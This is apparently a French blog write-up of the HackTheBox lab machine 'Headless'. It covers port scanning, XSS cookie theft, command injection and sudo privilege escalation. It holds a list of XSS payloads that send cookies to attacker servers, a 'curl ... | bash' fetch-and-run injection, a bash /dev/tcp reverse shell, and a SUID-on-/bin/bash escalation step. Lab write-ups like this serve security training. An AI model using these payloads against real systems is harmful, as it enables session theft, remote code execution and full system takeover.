







Bonjour à tous ! Aujourd'hui, je vous présente la machine Headless classée dans la catégorie easy sur HackTheBox. Nous y aborderons des concepts de base dans le domaine du web. 🙃

<!--more-->

## Port Scanning
```bash
[Mar 26, 2024 - 09:34:43 (CET)] exegol-htb Headless: nmap -sV 10.10.11.8
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-26 09:34 CET
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.025s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
787/tcp   filtered qsc
5000/tcp  open     upnp?
8085/tcp  filtered unknown
16000/tcp filtered fmsas
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.93%I=7%D=3/26%Time=660288BB%P=aarch64-unknown-linux-gn
SF:u%r(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\
SF:.2\x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2008:35:07
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Leng
SF:th:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnv
SF:B_Zfs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<ht
SF:ml\x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">
SF:\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-
SF:width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Constr
SF:uction</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20body\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-famil
SF:y:\x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0display:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20jus
SF:tify-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\
SF:x200,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOC
SF:TYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\
SF:n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20r
SF:esponse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400<
SF:/p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20v
SF:ersion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Err
SF:or\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20o
SF:r\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Le serveur distant hôte 2 services ouverts : 

- SSH server (OpenSSH 9.2p1)
- HTTP server (upnp?)

## Web Enumeration

sur cette page web on peut y voir (Welcome to Our Website) avec un encadré bleu avec écrit (For Questions)



Cliquer sur le bouton puis nous accédons à une nouvelle page.



On peut y voir un formulaire de contact avec un champ de texte et un bouton submit.
Remplissons le champ de texte avec une commande de base pour voir si il y a une faille d'injection.

## Web Exploitation



Nous allons faire une faire une attaque xss.

Mais avant tout c'est quoi une XSS :
Imaginez un délicieux gâteau au chocolat, mais avec un ingrédient surprise caché à l'intérieur - du piment !

L'attaque XSS est un peu comme ça. Un individu malveillant glisse du code malveillant (le piment) dans un site web qui semble normal.  Quand on visite le site (on mange le gâteau), notre navigateur exécute ce code sans méfiance, et paf!  Nos informations peuvent être volées ou on peut être redirigé vers un faux site (comme si on avait mal au ventre à cause du piment).

Il existe deux façons courantes de cacher le piment :

XSS réfléchi : L'individu malveillant envoie un lien piégé. Quand on clique dessus, le code malveillant est renvoyé par le site et exécuté par notre navigateur.

XSS stocké : L'individu malveillant injecte le code directement dans le site web, affectant tous les visiteurs.



```bash
/?c="+document.cookie>
/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
Nous allons choisissait la commande suivante
```bash
/?c="+document.cookie>
```
Nous allons changer notre user-agent pour un user-agent de google afin que le serveur puisse accepter notre requête, on crée un nouvel agent avec qui se nomme xss avec comme string la commande xss 


Avant de lancer l'attaque, il faut créer un serveur pour récupérer les cookies.
```bash
python3 -m http.server 80
```

Une fois que l'attaque est lancée, on peut voir que le serveur a reçu les cookies.
```bash
[Mar 26, 2024 - 14:08:42 (CET)] exegol-htb /workspace: python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
10.10.11.8 - - 26/Mar/2024 14:15:48] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
Nous avons recu le cookie is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

On peut voir que l'on ne peut pas se connecter au /dashboard 


Du coup nous allons essayer de connecter au /dashboard. Pour ça nous allons utiliser le cookie que nous avons reçu.
 
 on va mettre le cookie dans une extension de navigateur avec [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search)

 


 

Une fois tout bien préparé, on peut se connecter au /dashboard



Nous allons voir les requêtes http des dates que l'ont envoie au serveur via burpsuite



On peut voir que le serveur envoie une requête POST avec un paramètre date. On ajoute un reverse shell dans le paramètre date

Créer un reverse shell dans un fichier shell.sh
```bash
/bin/bash -c  "sh -i >& /dev/tcp/10.10.14.62/9001 0>&1"
```

Commande pour envoyer le reverse shell à notre machine
```bash
date=2023-09-15;curl http://<YOUR_IP>/shell.sh |bash
```

## User

On peut voir que le serveur a reçu notre reverse shell
```bash
[Mar 26, 2024 - 15:07:15 (CET)] exegol-htb Headless # pwncat-cs -lp 9001
[15:07:21] Welcome to pwncat 🐈!                                                                                                                               __main__.py:164
[15:07:25] received connection from 10.10.11.8:42146                                                                                                                bind.py:84
[15:07:26] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                          manager.py:957
[15:07:27] 10.10.11.8:42146: registered new host w/ db                                                                                                          manager.py:957
(local) pwncat:
(remote) dvir@headless:/home/dvir/app:
```


```bash
(remote) root@headless:/root# id
uid=1000(dvir) gid=1000(dvir) euid=0(dvir) groups=1000(dvir),100(users)
(remote) root@headless:/home/dvir# cat user.txt
0e*************ba
```


## Privilege Escalation

```bash
(remote) dvir@headless:/home/dvir$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

On va regarder le fichier syscheck
```bash
(remote) dvir@headless:/home/dvir$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Nous pouvons voir que initdb.sh est lancé, il nous suffit donc de le créer et d'y placer une charge utile malveillante comme suit :

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

Exécuter ensuite /usr/bin/syscheck avec les privilèges sudo dans le même dossier que initdb.sh puis /bin/bash -p pour accéder à l'interpréteur de commandes racine

```bash
sudo /usr/bin/syscheck
/bin/bash -p
```
## root
```bash
(remote) root@headless:/root# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
(remote) root@headless:/root# cat root.txt
80*************ce
```

## Source

[https://book.hacktricks.xyz/](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#retrieve-cookies)
